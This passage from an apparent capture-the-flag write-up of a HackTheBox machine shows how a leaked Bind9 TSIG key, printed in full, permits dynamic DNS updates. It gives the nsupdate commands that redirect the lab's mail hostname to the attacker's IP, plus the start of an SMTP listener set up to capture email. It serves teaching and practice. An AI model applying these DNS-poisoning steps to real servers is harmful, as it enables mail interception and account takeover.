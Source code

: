 
This also configures the `allow-transfer`. It also has an `allow-update`
value, which says that anyone with the `rndc-key` can update!

### Access to Mattermost

#### Update mail.snoopy.htb

The Bind9 docs have a [section on
TSIG](https://bind9.readthedocs.io/en/v9_16_22/advanced.html#tsig):

> TSIG (Transaction SIGnatures) is a mechanism for authenticating DNS
> messages, originally specified in [**RFC
> 2845**](https://datatracker.ietf.org/doc/html/rfc2845.html). It allows DNS
> messages to be cryptographically signed using a shared secret. TSIG can be
> used in any DNS transaction, as a way to restrict access to certain server
> functions (e.g., recursive queries) to authorized clients when IP-based
> access control is insufficient or needs to be overridden, or as a way to
> ensure message authenticity when it is critical to the integrity of the
> server, such as with dynamic UPDATE messages or zone transfers from a
> primary to a secondary server.

The docs calls out `nsupdate` as the tool to do dynamic DNS updates with TSIG.

I’ll create a file with the steps I want to do, and another with the key:

    
    
    oxdf@hacky$ cat poison_dns.txt 
    server 10.10.11.212
    zone snoopy.htb
    update add mail.snoopy.htb 86400 IN A 10.10.14.6
    send
    oxdf@hacky$ cat rndc.key 
    key "rndc-key" {
        algorithm hmac-sha256;
        secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
    };
    

If I ask the DNS server for `mail.snoopy.htb` before making changes, it comes
back empty. I’ll run `nsupdate` and then it shows my IP:

    
    
    oxdf@hacky$ dig mail.snoopy.htb +noall +answer @10.10.11.212
    oxdf@hacky$ nsupdate -k rndc.key poison_dns.txt
    oxdf@hacky$ dig mail.snoopy.htb +noall +answer @10.10.11.212
    mail.snoopy.htb.        86400   IN      A       10.10.14.6
    

It seems this resets every two minutes, so I’ll need to work fast, or be ready
to come back and update this again.

#### Capture Email

With the DNS pointed at my host, I’ll run a simple Python SMTP server using
the `aoismtpd` module. Just like the `http.server` module, it can be run from
the command line to create a simple server like `python -m aiosmtpd -n -l
0.0.0.0:25`. `-n` tells it not to try to set the UID (which is important since
I’m not running as root). `-l 0.0.0.0:25` tell it to listen on 25. I’ve got my
Python configured with capabilities to allow for listening on low ports:
